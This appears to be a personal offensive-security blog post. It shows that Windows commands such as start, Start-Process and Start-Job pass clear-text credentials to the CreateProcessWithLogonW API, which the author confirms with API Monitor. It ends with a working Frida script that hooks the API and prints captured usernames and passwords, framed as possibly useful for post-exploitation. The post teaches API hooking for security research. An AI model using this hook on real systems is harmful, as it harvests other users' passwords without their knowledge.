 ```yaml
---
layout: single
title: Hooking CreateProcessWithLogonW with Frida
date: 2020-2-22
classes: wide
header:
  teaser: /assets/images/APIHooking/Start.PNG
---
```


Introduction
------------
Following [b33f](https://twitter.com/FuzzySec) most recent [Patreon](https://www.patreon.com/FuzzySec) session titled `RDP hooking from POC to PWN` where he talks about API hooking in general and then discuss in details RDP hooking ([RdpThief](https://www.mdsec.co.uk/2019/11/rdpthief-extracting-clear-text-credentials-from-remote-desktop-clients/)) research published in 2019 by [@0x09AL](https://twitter.com/0x09al), I've decided to learn more about the subject as it seemed intriguing from an offensive research standpoint. In essence, API hooking is the process by which we can intercept and potentially modify the behavior and flow of API calls. In this blog we will be looking at capturing data pertaining to API calls for the most part.

Tooling
-------
We will be using the following tools:

* [API Monitor](http://www.rohitab.com/apimonitor) tool which is a free software that lets you monitor and control API calls made by applications and services according to the website.
* [Fermion](https://github.com/FuzzySecurity/Fermion) wrapper for [Frida](https://github.com/frida) or [frida-node](https://github.com/frida/frida-node) rather exposing the ability to inject [Frida](https://github.com/frida) scripts into processes using a single UI. 

Target
------
While reading through chapter 3 of Windows Internals book, I noticed a mention of the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API which could be used by programs and/or utilities that offer execution in the context of a different user such as `runas` command-line utility. Moreover, examining this function API documentation on MSDN I found that it takes clear-text password for a given user account as parameter amongest others which makes it even more interesting. At this point I thought this is something worth exploring and started targeting commands that make use of said API. The following is list of few commands I tested:

  
Start
-----
As the name suggest, the [start](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/start) command enables a user to open a separate window from the Windows command line. Let's execute the below command to spawn command prompt as a different user while running API Monitor in the background.

![](/assets/images/APIHooking/Start.PNG)

We notice call to [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API which holds the credential values we just entered in the first and second parameters.

![](/assets/images/APIHooking/APIMon1.PNG)

Start-Process
--------------
The [Start-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7) cmdlet starts one or more processes on the local computer such as starting process using alternate credentials amongest other things.

![](/assets/images/APIHooking/Start-Process.JPG)

Again we search for call to [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API and examine the parameters as shown below.

![](/assets/images/APIHooking/APIMon2.JPG)

Start-Job
---------
The last cmdlet we're going to test is [Start-Job](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/start-job?view=powershell-7) which is used to run jobs in the background. In this case, we're going to invoke basic powershell script to mix things up.

```powershell
$username = "lowpriv"
$password = "Passw0rd!"
$securePassword = ConvertTo-SecureString  -String $password -AsPlainText -Force
$Creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($username, $securePassword)
Start-Job -ScriptBlock {Get-Process Explorer} -Credential $Creds
```

And we get the same result.

![](/assets/images/APIHooking/APIMon3.JPG)

Frida Script
------------
I've put together basic [Frida](https://github.com/frida) script that hooks the [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API and then extract clear-text credentials.

```javascript
// This script extract clear-text passwords by hooking CreateProcessWithLogonW function API.
//------------------------------------------------------------------------------------------

// https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw
var pCreateProcessWithLogonW = Module.findExportByName("Advapi32.dll", 'CreateProcessWithLogonW')

Interceptor.attach(pCreateProcessWithLogonW, {
    onEnter: function (args) {
        send("[+] CreateProcessWithLogonW API hooked!");
        // Save the following arguments for OnLeave
        this.lpUsername = args[0];
        this.lpDomain = args[1];
        this.lpPassword = args[2];
        this.lpApplicationName = args[4];
        this.lpCommandLine =args[5];
    },
    onLeave: function (args) {
        send("[+] Retrieving argument values..");
        send("=============================");
        send("Username    : " + this.lpUsername.readUtf16String());
        send("Domain      : " + this.lpDomain.readUtf16String());
        send("Password    : " + this.lpPassword.readUtf16String());
        send("Application : " + this.lpApplicationName.readUtf16String());
        send("Commandline : " + this.lpCommandLine.readUtf16String());
        send("=============================");
    }
});
```

Let's test it.

![](/assets/images/APIHooking/Demo.gif)

Conclusion
----------
I believe this post serves as a gentle introduction to API hooking and I'm sure I missed a few other commands that make use of [CreateProcessWithLogonW](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithlogonw) API behind the scenes ;D. I don't know wether this is useful from post-exploitation standpoint and would rather leave it to the reader to decide. Lastly, I would like to thank [@h0mbre_](https://twitter.com/h0mbre_) for reviewing this post and hope this was a good read.
